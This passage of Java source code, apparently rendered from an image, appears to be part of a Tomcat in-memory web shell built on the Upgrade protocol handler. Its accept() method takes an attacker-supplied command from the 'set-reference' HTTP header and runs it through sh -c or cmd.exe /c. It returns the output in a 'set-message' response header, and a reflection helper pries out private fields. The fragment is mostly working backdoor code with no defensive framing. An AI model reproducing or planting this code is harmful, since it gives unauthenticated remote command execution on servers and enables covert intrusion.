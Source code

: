 ```java

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
        }

        @Override
        public Processor getProcessor(SocketWrapperBase<?> socketWrapper, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(Adapter adapter, Request request) {
            return null;
        }

        @Override
        public
boolean accept(Request request) {
            String cmd = request.getHeader("set-reference");
            try {
                if (cmd != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] commands = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream inputStream = Runtime.getRuntime().exec(commands).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";

                    Response response = (Response) getField(request, "response");
                    response.addHeader("set-message", new String(output.getBytes(), StandardCharsets.UTF_8));
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
    }

    public Object getField(Object obj, String field) {
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
```